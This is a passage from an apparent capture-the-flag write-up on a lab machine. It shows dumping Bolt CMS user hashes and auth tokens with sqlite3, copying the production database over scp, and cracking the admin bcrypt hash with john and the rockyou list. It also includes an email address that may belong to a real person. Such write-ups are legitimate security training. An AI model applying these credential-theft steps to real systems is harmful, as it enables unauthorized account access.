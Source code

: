 ### app/database

We can access the database using `sqlite3` (which is available by default on a
Kali install). We list the available tables and the data from the `bolt_users`
and `bolt_authtoken`. We got a password hash.

    :::text
    sqlite3 app/database/bolt.db
    SQLite version 3.30.1 2019-10-10 20:19:45
    Enter ".help" for usage hints.
    sqlite> .tables
    bolt_authtoken    bolt_field_value  bolt_pages        bolt_users
    bolt_blocks       bolt_homepage     bolt_relations
    bolt_cron         bolt_log_change   bolt_showcases
    bolt_entries      bolt_log_system   bolt_taxonomy
    sqlite> select * from bolt_users;
    1|admi|$2y$10$hcuhBWxp7Ypk8Wx.LUpEguihXr60tiDeh46v3cSy7wvKnQSq/Kre2|thek27@gmail.com|2019-05-29 11:02:18|192.168.50.1|Admin|[]|1||||0||["root","everyone"]
    sqlite> select * from bolt_authtoken;
    1|1||5ce26d1b34ecf3405469c50ef01e044793c71db8da07e4705fc995a0bd964505|05fde348656e16b2589424fb7d175372|2019-05-29 11:02:18|192.168.50.1|Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36|2019-06-12 11:02:18

We can use `sqlite> .schema bolt_users` to show the columns name (for the
bolt_users table).

We try to brute force the password has using john. The hash algorithm is bcrypt and
the password doesn't seems to be on the rockyou top 10 000 (+ the three passwords found
earlier).

### Production DB

We are working on the backup database. Let us just get the "production" one.
And dump the same table. The hash is different.

    :::text
    scp bolt@10.10.10.159:/var/www/html/bolt/app/database/bolt.db ./
    Enter passphrase for key '/root/.ssh/id_rsa':
    bolt.db    100%  296KB  65.2KB/s   00:04
    sqlite3 bolt.db
    SQLite version 3.30.1 2019-10-10 20:19:45
    Enter ".help" for usage hints.
    sqlite> select * from bolt_users;
    1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-12-04 12:58:05|10.10.16.58|Admin|["files://ls.php.png"]|1||||0||["root","everyone"]
    2|test|$2y$10$8GeiNSHiL3pAlMyRvjY2seroSOYQnvRKmZxk/iadII3lKPYhsvh1S|a@a.a|2019-12-04 09:09:13|10.10.14.218|testingtege|["files://166912.jpg"]|1||||0||["editor","chief-editor","admin","developer","guest","root","everyone"]

This time john is more efficient and we found the password almost immediately.

    :::text
    john  hash -w=~/tools/password_lists/rockyou.txt
    Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
    Use the "--format=bcrypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    strawberry       (?)
    1g 0:00:00:04 DONE (2019-12-04 16:38) 0.2439g/s 87.80p/s 87.80c/s 87.80C/s strawberry..brianna
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
